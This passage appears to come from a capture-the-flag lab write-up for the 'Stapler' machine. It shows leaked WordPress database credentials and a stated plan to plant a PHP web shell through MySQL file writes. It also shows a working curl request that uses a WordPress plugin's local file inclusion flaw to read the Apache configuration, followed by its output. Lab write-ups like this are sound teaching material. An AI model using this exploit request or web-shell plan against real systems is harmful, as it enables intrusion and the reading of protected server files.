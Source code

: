```bash
/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

We have MySQL DB creds we can use for _root_.

## RCE via MySQL DB File Write

Since we have _root_ credentials to MySQL we should be able to write a file to disk.

Ultimately, we want to write a PHP web shell to the root WWW directory.

To determine the root WWW directory we need to leverate the LFI exploit to get _/etc/apache2/sites-available/default-ssl.conf_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k "https://192.168.218.148:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/apache2/sites-available/default-ssl.conf"
https://192.168.218.148:12380/blogblog/?p=230


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k -s https://192.168.218.148:12380/blogblog/wp-content/uploads/ | html2text****** Index of /blogblog/wp-content/uploads ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[IMG]]       1588528899.jpeg  2023-11-16 02:20 6.2K  
[[IMG]]       1621300986.jpeg  2023-11-16 02:13 3.0K  
===========================================================================
     Apache/2.4.18 (Ubuntu) Server at 192.168.218.148 Port 12380


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k -s https://192.168.218.148:12380/blogblog/wp-content/uploads/1588528899.jpeg --output defaul
t-ssl.conf

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ cat default-ssl.conf
<IfModule mod_ssl.c>
        <VirtualHost _default_:12380>
                ServerAdmin garry@red

                DocumentRoot /var/www/https

```

The DocumentRoot is _/var/www/https_
